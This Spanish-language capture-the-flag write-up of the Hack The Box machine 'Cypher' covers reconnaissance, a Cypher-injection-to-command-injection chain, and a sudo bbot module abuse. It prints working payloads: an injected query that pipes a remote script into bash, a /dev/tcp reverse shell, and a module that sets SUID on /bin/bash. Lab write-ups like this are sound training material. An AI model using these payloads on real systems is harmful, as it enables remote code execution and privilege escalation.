Nueva semana Nueva maquina por resolver banda 
# Preparaciones

Recuerda agregar  tu /etc/hosts la dirección de la maquina para que pueda resolver 


# Fase de reconocimiento

Usando la herramienta de Nmap realizaremos la fase de reconocimiento con el objetivo de poder saber que puertos y servicios están abiertos en la maquina  

Reconocimiento de puertos:
```bash 
$ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG PortsOpen 10.10.11.57

Host: 10.10.11.57 ()    Status: Up
Host: 10.10.11.57 ()    Ports: 22/open/tcp//ssh///, 80/open/tcp//http///  
```

Reconocimiento de servicios: 
```bash
$ nmap -sCV -p22,80 -oN PortsInfo 10.10.11.57

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Bien una vez realizado obtenemos la siguiente información, a través de el puerto 22 tenemos el servicio de ssh que nos permitirá conectarnos al servidor  , y por el 80 tenemos Nginx alojando lo que parece ser una pagina web 


## cypher.htb

Y en efecto es una pagina web con temática de una base de datos con grafos, lo cual parece ser que esta 



y para ser exactos esta ocupando Neo4j de Python, el cual te permite crear bases NoSQL por medio de grafos, algo como mongoDB que también son bases de datos en formato Json



Tenemos un Login de inicio de sección el cual en el campo de "username" es vulnerable a una Cypher Injection (Ahora sabes por que se llama asi la maquina), si no conoces sobre el tema y como funciona una BD de tipo grafo puedes consultar la misma pagina de Neo4j 
[Protecting against Cypher Injection - Knowledge Base](https://neo4j.com/developer/kb/protecting-against-cypher-injection/)




Como tal la entrada del usuario no esta sanitizada por ende podemos ver una simple " ' " puede romper la query que se esta implementando por detrás , que por cierto el error no esta mostrado la query completa 

``` Cypher
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = ''' return h.value as hash
													 ^ #HERE 
```

Cabe mencionar también que el tipo de inyección que se esta aplicando es a base de errores, que quiere decir esto, pues al igual que la **Error-based SQLi**, si la query es verdadera mostrara el mensaje de "Access Denied" y si la query no es correcta mostrara el mensaje, esto solo como punto de observación 


Bien como explotamos la vulnerabilidad o que podemos hacer con esto , primero la contraseña esta en modo SHA1 que no se puede decodificar por ende aunque pudiéramos mostrar lo que se encuentra en valores de u "(u:USER)" y h "(h:SHA1)" no nos serviría mas que par saber que usuarios existen 

## Descubrimientos con dirsearch

Si usamos la herramienta de Dirsearch podemos encontrar una ruta en la cual podemos encontrar un archivo .jar (Dirsearch ocupa librerias que se instalan por medio de pip install, en entornos como ParrotOs se necesita crear un entorno virtual para que funcione correctamente)
```BASH 

❯ python3 dirsearch.py -u http://cypher.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12290

Target: http://cypher.htb/

[11:25:08] 200 -    4KB - /index
[11:25:08] 200 -    4KB - /index.html
[11:25:10] 200 -    4KB - /login
[11:25:10] 200 -    4KB - /login.html
[11:25:19] 301 -   178B - /testing  ->  http://cypher.htb/testing/ #HERE

```



Si abrimos este archivo con jd-gui encontraremos algo muy interesante y una posible forma de entrar a la maquina

En la clase llamada **CustomFunction.class**, existe una ejecución de comando en la línea 19 la cual no esta sanitizada y la variable **url** será nuestro objetivo 

```java
String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };
                  ^ #HERE
```


(Gráficamente fue la reacción que hice al ver esa parte del código xd)

Con esto podemos mandarnos una reverse shell 

# Cypher Injection

Par realizar esta RCE( Remote Code Execution ) a través de Cypher podemos intentar mandarnos la rever shell desde la inyección pero no funciona 

Not Work:
```Cypher
admin' return h.value AS hash UNION CALL custom.getUrlStatusCode('127.0.0.1; bash -i >%26 /dev/tcp/10.10.14.255/443 0>%261') YIELD statusCode AS hash RETURN hash ; //
```

Por ende la query que inyectaremos a continuación, cargara un archivo desde nuestra maquina, para que después lo ejecute 

Primero para probar iniciaremos un servidor con Python 

```bash 
pyhton3 -m http.server 80
```  

Después le mandaremos la siguiente query 

  ```Cypher
admin' return h.value AS value  UNION CALL custom.getUrlStatusCode(\"127.0.0.1;curl 10.10.xx.xx/pwned.sh|bash;\") YIELD statusCode AS value  RETURN value ; //
```  



y en el servido deberemos de tener una solicitud para el archivo pwned.sh, esto tambien nos quiere decir que también es vulnerable a un SSFR (Server-side request forgery)



## Pwned.sh 

Este será el pyload para que la maquina lo ejecute,(el usuario quien sabe quien es)

```bash 
#!/bin/bash
bash -i >& /dev/tcp/10.10.XX.XX/PORT 0>&1
```

Y par que funcione bien;
- Primero ejecutamos el servidor de Python por el puerto 80 donde se encuentra el archivo pwned.sh
- En otra terminal usando **nc** estaremos en escucha por el puerto que indicamos en el pwned.sh
- Y por ultimo mandamos la query 





# Neo4j a root

Bien ya tenemos nuestra reverse shell le daremos un tratamiento para que tengamos una consola interactiva 

```bash 
script /dev/null -c bash

^Z # Ctrl+Z

stty raw -echo; fg

reset xterm

export TERM=xterm;export SHELL=bash

stty rows 41 columns 192
```

Primero podemos ver que el usuario Neo4j que es como entramos no tiene permisos para nada el otro usuario que existe dentro de la maquina es **graphasm** ya que si listamos el /etc/passwd podemos ver que tiene asignada una bash

```
graphasm:x:1000:1000:graphasm:/home/graphasm:/bin/bash
```

dentro de su directorio tenemos lo siguientes archivos, el **bbot_preset.yml**
contiene una contraseña 


Dentro de este archivo tenemos una contraseña , la cual parece ser que es del usuario **neo4j**
pero no, ya que al intentar con `sudo -l neo4j` y poner la contraseña, esta no funciona 



Por lo que toca probar con el usuario de graphasm



Ahora somos graphasm y podremos obtener la primera flag:



Estando ya como graphasm si ejecutamos un sudo -l, nos mostrar un único binario que podemos ejecutar como el usuario root (el binario esta hecho en python) el cual se encuentra en ``/usr/local/bin/bbot``




Si lo ejecutamos no pedirá que pasemos argumentos para que funcione:



## ROOT xd

La verdad no me espera esta escalda de privilegios pero....... supongo que si debe de pasar en el mundo real

Bien entre todos los parámetros que tiene el binario podemos ver la flag de root sin necesidad de tener la bash de root, pero aquí venimos a aprender no a hacernos mas fácil la vida, por eso veremos como volvernos root 


Primero este binario llamado bbot y tenemos una documentación muy extensa en el, pero tenemos la opción de crear módulos personalizados y ejecutarlos 
[How to Write a BBOT Module - BBOT Docs](https://www.blacklanternsecurity.com/bbot/Stable/dev/module_howto/)

Primero verificamos que la carpeta en la que esta el boot podamos crear archivos , y no tenemos el permiso ,solo podemos leer y ejecutar 




Entonces ocuparemos el directorio de confianza **/tmp**, dentro de el crearemos un directorio llamado modules 

Primer paso es crear un archivo llamado conf.yml que contendrá la ruta de los módulos personalizados 

```conf.yml
module_dirs:
  - /tmp/modules
```

Ahora creamos una nueva carpeta llamada modules y dentro de esta carpeta nuestro archivo .py, para evitar problemas es mejor llamarlo como la clase 

```python 
class pwned(BaseModule):
    watched_events = ["DNS_NAME"]
```


```python
from bbot.modules.base import BaseModule
import os
 
class pwned(BaseModule):
    watched_events = ["DNS_NAME"] # watch for DNS_NAME events
    produced_events = ["WHOIS"] # we produce WHOIS events
    flags = ["passive", "safe"]
    meta = {"description": "Query WhoisXMLAPI for WHOIS data"}
    options = {"api_key": ""} # module config options
    options_desc = {"api_key": "WhoisXMLAPI Key"}
    per_domain_only = True # only run once per domain
 
    base_url = "https://www.whoisxmlapi.com/whoisserver/WhoisService"
 
    # one-time setup - runs at the beginning of the scan
    async def setup(self):
        # Solo cambia los permisos de /bin/bash para añadir el bit SUID
        os.system("chmod u+s /bin/bash")
        self.api_key = self.config.get("api_key")
        if not self.api_key:
            # soft-fail if no API key is set
            return None, "Must set API key"
 
    async def handle_event(self, event):
        self.hugesuccess(f"Got {event} (event.data: {event.data})")
        *, domain = self.helpers.split*domain(event.data)
        url = f"{self.base_url}?apiKey={self.api_key}&domainName={domain}&outputFormat=JSON"
        self.hugeinfo(f"Visiting {url}")
        response = await self.helpers.request(url)
        if response is not None:
            await self.emit_event(response.json(), "WHOIS", parent=event)
```

Y para que funcione y le cambiemos los permisos SUID de la bash:

```bash 
sudo /usr/local/bin/bbot -p ./myconf.yml -m pwned
```

Parámetro -p es cargar un archivo de configuración en el cual se especifican rutas donde debe de buscar los módulos  a ejecutar

Parámetro -m especifica que modulo quieres ejecutar 

Y con eso es mas que suficiente :



Y con esto Cypher has been Pwned!!!!!!!!


Conceptos Aplicados: 

#Chyper #RCE #SSFR #boot #ChyperInjection 